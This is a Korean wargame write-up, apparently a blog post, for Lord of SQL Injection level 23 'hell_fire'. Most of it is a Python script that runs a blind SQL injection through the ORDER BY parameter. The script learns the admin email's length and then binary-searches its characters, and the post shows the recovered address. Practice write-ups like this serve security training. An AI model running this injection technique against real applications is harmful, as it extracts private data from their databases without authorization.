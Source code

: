 ```yaml
---
title: LOS - 23번 hell_fire
category: [Wargame, Lord of SQL Injection]
---
```


# [23] hell_fire

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F5eUFD%2FbtrnVrPFyVL%2FKNGuBlPtjreZyWkhE4l4uk%2Fimg.png">

## 풀이

**LoS 23번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"
    cookie = "sdrjk57hqa404dvtb3akcpfvk1"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 23을 시작합니다")

for num in range(0,100):
    param=f"?order=if(id='admin' and length(email)={num}, 'id', 'score')"
    if("200</td></tr><tr><td>rubiya" in send(param)):
        print(f"👏 email의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?order=if(id='admin' and ascii(substr(email,{len},1))>={middle}, 'id', 'score') %23"
        if("200</td></tr><tr><td>rubiya" in send(param)):
            param=f"?order=if(id='admin' and ascii(substr(email,{len},1))={middle}, 'id', 'score') %23"
            if("200</td></tr><tr><td>rubiya" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 email의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FODAqj%2FbtrnX0KUmP3%2FEyAtalWB84Fusk5ABdVFM0%2Fimg.png">

admin 계정의 email은 `admin_secure_email@emai1.com` 임을 확인할 수 있다.

* @ 뒷부분을 보면... emai**1** 이다. 깨알같은 함정?

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FboRpmQ%2Fbtrn14rH98w%2FwhuKJ6XRowVM23QGkUPvIK%2Fimg.png">